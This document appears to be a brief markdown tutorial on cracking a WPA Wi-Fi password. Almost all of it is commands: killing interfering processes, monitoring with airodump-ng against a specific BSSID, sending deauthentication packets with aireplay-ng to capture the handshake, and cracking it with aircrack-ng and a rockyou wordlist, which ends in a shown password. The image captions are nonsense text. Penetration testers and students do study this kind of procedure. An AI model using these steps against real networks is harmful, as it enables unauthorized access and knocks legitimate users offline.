 `sudo airmon-ng check kill`  
So as to kill processes that might disturb network monitoring.  

`sudo airodump-ng wlan0mon`
network monitoring with `wlan0mon`  NIC  (network interface card)  
![Dear image, I hope you'll work how I... imagine](./img/airodump-ng-1.png)

`sudo airodump-ng --bssid BA:18:69:CC:1E:61 -c 11 --write WPAcrack wlan0mon`  
`--bssid` Target's MAC, `-c` channel, `--write` output name (WPA hash for cracking later)  
![Mama dala corce bulke](./img/airodump-ng-2.png)

`sudo aireplay-ng --deauth 30 -a BA:18:69:CC:1E:61 wlan0mon`  
`--deauth 30` We're sending 30 packets so as to break connection for a while  
Bcause of this will be able to capture handshake (and password hash for later cracking)  
![nasmarowana maslem](./img/airodump-ng-3.png)

`sudo aircrack-ng WPAcrack-01.cap -w rockyou_50.txt`  password hash cracking
![wcinaj](./img/aircrack-ng-1.png)

Password: 123456qwerty  


`dhcpclient eth0`  after wifi hacking NIC might have some problems. This command might help